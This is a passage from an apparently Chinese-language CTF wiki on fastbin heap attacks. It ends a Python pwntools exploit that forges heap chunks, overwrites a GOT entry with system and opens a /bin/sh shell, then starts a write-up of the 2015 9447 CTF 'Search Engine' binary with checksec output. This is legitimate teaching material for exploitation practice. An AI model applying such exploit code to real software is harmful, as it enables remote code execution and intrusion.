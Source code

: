 ```python
    add(25 * 'a', payload)
    # before free, we need to bypass some check
    # fake chunk's size is 0x40
    # 0x20 *'a' for padding the last fake chunk
    # 0x40 for fake chunk's next chunk's prev_size
    # 0x100 for fake chunk's next chunk's size
    # set fake iofle' next to be NULL
    payload = 0x20 * '\x00' + p32(0x40) + p32(0x100)
    payload = payload.ljust(52, 'b')
    payload += p32(0)
    payload = payload.ljust(128, 'c')
    message(payload)
    # fastbin 0x40: 0x0804A2A0->some where heap->NULL
    order()
    p.recvuntil('Okay order submitted!\n')

    print 'step 3. get shell'
    # modify free@got to system addr
    payload = p32(oreo.got['strlen']).ljust(20, 'a')
    add(payload, 'b' * 20)
    log.success('system addr: ' + hex(system_addr))
    #gdb.attach(p)
    message(p32(system_addr) + ';/bin/sh\x00')

    p.interactive()


if __name__ == "__main__":
    exp()

```

当然，该题目也可以使用 `fast bin attack` 中的其它技术来实现，可参考参考文献中的链接。

## 2015 9447 CTF : Search Engine

### 基本信息

```shell
➜  2015_9447ctf_search-engine git:(master) file search
search: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4f5b70085d957097e91f940f98c0d4cc6fb3343f, stripped
➜  2015_9447ctf_search-engine git:(master) checksec search
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled

```
